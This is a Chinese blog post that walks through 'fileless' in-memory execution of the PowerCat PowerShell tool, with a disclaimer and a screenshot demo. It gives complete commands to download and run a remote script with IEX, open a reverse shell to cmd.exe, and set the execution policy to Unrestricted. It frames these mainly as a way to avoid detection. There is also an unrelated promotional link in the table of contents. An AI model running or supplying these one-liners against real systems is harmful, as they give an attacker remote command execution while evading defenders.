 
声明：本文主要用作技术分享，所有内容仅供参考。任何使用或依赖于本文信息所造成的法律后果均与本人无关。请读者自行判断风险，并遵循相关法律法规。


目录* [完整示例](https://github.com)
* [注意事项](https://github.com):[悠兔机场](https://xinnongbo.com)
* [演示](https://github.com)

无文件落地执行（fileless execution）是一种技术，用于避免在磁盘上留下文件痕迹，使得恶意行为更难被检测到。PowerCat 是一个基于 PowerShell 的渗透测试工具，可以使用 PowerShell 的特性实现无文件落地执行。


1. **准备 PowerCat 脚本**：将 PowerCat 的脚本托管在一个可以访问的远程服务器上，比如 GitHub Gist、Pastebin 或自建的 HTTP 服务器。
2. **使用 PowerShell 命令直接从远程服务器下载并执行脚本**：


	* 使用 `IEX`（Invoke\-Expression）和 `Invoke-WebRequest` 或 `Invoke-RestMethod` 组合可以直接在内存中加载和执行脚本。
	* 以下是一个示例命令，通过 PowerShell 从远程服务器下载并执行 PowerCat：



```
IEX (New-Object Net.WebClient).DownloadString('https://example.com/path/to/powercat.ps1')

```

或者使用 `Invoke-RestMethod`：



```
IEX (Invoke-RestMethod -Uri 'https://example.com/path/to/powercat.ps1')

```

3. **执行 PowerCat 命令**：在内存中加载 PowerCat 后，直接使用 PowerCat 提供的功能进行渗透测试。例如，使用 PowerCat 建立反向 shell：



```
powercat -c target_ip -p target_port -e cmd.exe

```

##### 完整示例


假设 PowerCat 脚本托管在 `https://example.com/path/to/powercat.ps1`：



```
IEX (New-Object Net.WebClient).DownloadString('https://example.com/path/to/powercat.ps1'); powercat -c target_ip -p target_port -e cmd.exe

```

此命令会在内存中下载并执行 PowerCat 脚本，并立即通过 PowerCat 建立反向 shell 连接。


##### 注意事项


* **安全性**：确保托管脚本的远程服务器是安全的，防止脚本被篡改。
* **权限**：PowerShell 执行策略可能会限制脚本执行。需要以管理员权限运行 PowerShell 或调整执行策略：



```
Set-ExecutionPolicy Unrestricted -Scope Process

```

* **检测和防御**：尽管无文件落地执行可以降低被检测的可能性，但仍有其他检测和防御手段，例如基于行为的检测，因此在实际渗透测试中要综合考虑多种手段。


通过这些步骤，你可以实现 PowerCat 的无文件落地执行，直接在内存中下载并执行 PowerCat 脚本。


##### 演示


远端机开启web服务，用于被控端下载powercat 脚本![](https://img2024.cnblogs.com/blog/2839487/202412/2839487-20241225192238743-1288239076.png)


攻击机开启监听
![](https://img2024.cnblogs.com/blog/2839487/202412/2839487-20241225192324819-2114882386.png)


执行命令
![](https://img2024.cnblogs.com/blog/2839487/202412/2839487-20241225192345028-2087607265.png)


攻击端成功接收
![](https://img2024.cnblogs.com/blog/2839487/202412/2839487-20241225192411316-2110326406.png)


查看被控端执行目录文件列表，不存在powercat.ps1 文件，说明文件未落地执行，直接在内存中执行。
![](https://img2024.cnblogs.com/blog/2839487/202412/2839487-20241225192430119-122322500.png)


当然除了使用 IEX 进行无文件落地，还可以使用的方法有 4 种。
欢迎关注 公众号 “D1TASec” 查看文章。


